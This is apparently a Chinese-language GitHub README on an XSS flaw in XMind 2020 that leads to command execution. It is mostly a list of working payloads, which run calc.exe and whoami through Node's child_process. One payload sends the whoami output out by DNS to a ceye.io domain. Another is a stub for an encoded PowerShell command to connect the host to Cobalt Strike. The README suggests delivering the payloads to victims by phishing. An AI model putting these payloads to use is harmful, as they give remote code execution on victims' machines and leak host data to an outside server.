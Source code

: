 # XMind 2020 存在XSS导致命令执行漏洞
> XMind 2020存在XSS漏洞，攻击者在大纲模块下，可在主题中插入恶意代码，当用户按下键盘上的功能键时（例如shift、command、enter、control、ctrl等），即可触发漏洞。实战中，攻击者可通过钓鱼的方式，利用该XSS漏洞实现命令执行，例如可DNS带外传输主机信息或直接上线到CS/MSF等。
## 部分payload
* 简单弹窗<br>`<img src=1 onerror=alert("1")>`<br>
* 弹计算器<br>`<img src=# onerror="require('child_process').exec('calc.exe',null);">`<br>
* 弹用户名<br>`<img src=x onerror="const exec = require('child_process').exec;exec('whoami').stdout.on('data', function (data) {alert(data);})">`
![image](https://user-images.githubusercontent.com/53027649/124340974-c5f69080-dbeb-11eb-990c-078a7cba2543.png)
* DNS带外<br>``<img src=x onerror="const exec = require('child_process').exec;exec('curl `whoami`.domain.ceye.io').stdout.on('data', function (data) {alert(data);})">``<br>
![image](https://user-images.githubusercontent.com/53027649/124340984-d0b12580-dbeb-11eb-8e4c-990e508c66ca.png)
* 通过对powershell进行编码，然后替换payload上线CS<br>`<img src=x onerror="const exec = require('child_process').exec;exec('powershell（……）').stdout.on('data', function (data) {alert(data);})">`
